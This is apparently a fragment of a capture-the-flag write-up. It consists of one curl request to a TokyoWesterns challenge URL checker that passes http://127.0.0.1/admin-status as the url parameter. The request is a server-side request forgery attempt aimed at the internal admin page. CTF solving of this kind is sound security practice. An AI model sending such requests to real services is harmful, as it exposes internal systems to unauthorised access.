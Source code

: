 curl 'http://urlcheck1.chal.ctf.westerns.tokyo/check-status?url=http://127.0.0.1/admin-status' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36' \
  -H 'DNT: 1' \
  -H 'Accept: */*' \
  -H 'Referer: http://urlcheck1.chal.ctf.westerns.tokyo/' \
  -H 'Accept-Language: en-US,en;q=0.9,la;q=0.8' \
  --compressed \
  --insecure